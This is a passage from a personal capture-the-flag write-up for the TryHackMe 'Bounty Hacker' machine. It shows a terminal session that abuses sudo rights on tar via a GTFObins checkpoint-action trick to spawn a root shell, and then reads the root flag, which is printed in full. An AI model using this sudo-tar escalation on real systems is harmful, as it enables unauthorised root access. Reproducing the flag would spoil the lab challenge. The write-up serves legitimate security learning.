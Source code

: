 Probably our initial attack vector.

## GTFObins

We search in [GTFObins](../../3%20-%20Tags/Hacking%20Tools/GTFObins.md) for tar :

<img src="../../Flameshots/5153273165b1c8ae2f19b9e68f7feaa1.png" alt="5153273165b1c8ae2f19b9e68f7feaa1.png" width="573" height="104">

Now we go in bin cause tar it's there and paste the command ;  
<br/>

```
lin@bountyhacker:~/Desktop$ cd bin
-bash: cd: bin: No such file or directory
lin@bountyhacker:~/Desktop$ cd /bin/
lin@bountyhacker:/bin$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
[sudo] password for lin: 
tar: Removing leading `/' from member names

# whoami
root
# cd/root/
/bin/sh: 3: cd/root/: not found
# cd ..
# ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
# cd root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}

```

And we have the root flag : THM{80UN7Y_h4cK3r} .

Pwned !!
